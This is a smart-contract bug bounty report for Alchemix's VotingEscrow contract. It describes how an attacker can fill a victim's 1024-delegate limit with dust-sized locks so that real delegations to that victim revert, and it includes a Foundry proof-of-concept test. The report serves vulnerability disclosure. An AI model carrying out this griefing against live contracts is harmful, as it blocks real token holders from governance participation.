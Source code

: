 
# Griefing an account from getting votes delegated to it

Submitted on Sun May 05 2024 03:56:52 GMT-0400 (Atlantic Standard Time) by @Shahen for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30704

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
Assume there's three addresse's (Bob,Alex and Maya). Maya got `1e18` of `bpt tokens` which she locked in `VotingEscrow` contract and received a tokenId of the created `veALCX`. Maya is hoping to delegate her votes to Alex now. But Bob is a malicious actor, He locks `0.0000001 ether of bpt` in the `VotingEscrow` contract 1024 times.Therefore bob recieves 1024 tokenId's for a total of `0.0001024 ether of bpt` locked. 

Now bob delegates his votes from each of his tokenId's to Alex,So alex got votes from 1024 tokenId's. So what bob have done here is a grief, If you look at line 1110 under ` _moveAllDelegates()` internal function. There's a require condition that checks the total number of delegates the destioation(dst) has and if its <= `MAX_DELEGATES` which is 1024.  So since bob delegated votes from 1024 tokenId's to Alex, When Maya tries to delegate votes from her tokenId that she received from locking `1e18`, The delegation will revert as the require statement fails. So this is how bob griefed Alex from getting votes delegated to him. Basically bob used his `0.0001024*10**18 bpt` total locked deposit to grief Alex, But bob can use any amount less than `0.0001024*10**18 bpt`,I just used that in the test. Ofcourse Alex would be able to delegate and clear out the unworthy votes sent by bob,But Bob can do the griefing again.

Please refer to the below Foundry POC demonstrating the explained scenario.

## Vulnerability Details
Same as the Brief/Intro

## Impact Details
A malicious actor can grief another address from getting votes delegated to it by maxing out the `MAX_DELEGATES` limit. 

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

        
## Proof of concept
## Proof of Concept

Paste the below testfile under src/test and run.

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract VotingEscrowGriefTest is BaseTest {
    uint256 internal constant THREE_WEEKS = 3 weeks;
    address bob = address(0x1); // Griefer
    address alex = address(0x2); // victim
    address maya = address(0x3);

    function setUp() public {
        setupContracts(block.timestamp);
    }

    
   
    
    function test_delegate_grief() public {

// 1.) Bob has 0.0001024 bpt.

        hevm.startPrank(bob);
        deal(bpt,bob,0.0001024 ether);
        IERC20(bpt).approve(address(veALCX), 0.0001024 ether);
        
// 2.) Bob aquires multiple tokenId's by locking 0.0000001 bpt * 1024 times, So in total bob got <1024 tokenId's. 
// 3.) Since bob now has greater than or equal to 1024 tokenId's,Bob delegates votes from all of his tokenId's to Alex.    
        
        
        for (uint i = 0; i < 1024; i++) {
            uint256 tokenId = veALCX.createLock(0.0000001 ether, THREE_WEEKS, false);
            assertEq(veALCX.ownerOf(tokenId), bob);
            veALCX.delegate(alex);

        }

        
    

        hevm.stopPrank();
// 4.) Now Maya who locked 1e18 worth of bpt tries to delegate vote to alex.
// 5.) But the delegation revert as there's a limit of 1024 max delegates per dst account.
// 6.) Basically Bob delegated votes to Alex from 1024 different tokenId's, And since theres a max delagate limit of 1024,No one would be able to delegate votes to alex.
// 7.) This way Bob griefed Alex by getting votes delegated to him.
        hevm.startPrank(maya);
        deal(bpt,maya,1e18);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 tokenId = veALCX.createLock(1e18, THREE_WEEKS, false);
        assertEq(veALCX.ownerOf(tokenId), maya);
        hevm.expectRevert(abi.encodePacked("dst would have too many tokenIds"));
        veALCX.delegate(alex);
        hevm.stopPrank();
        

        
    }

    
}

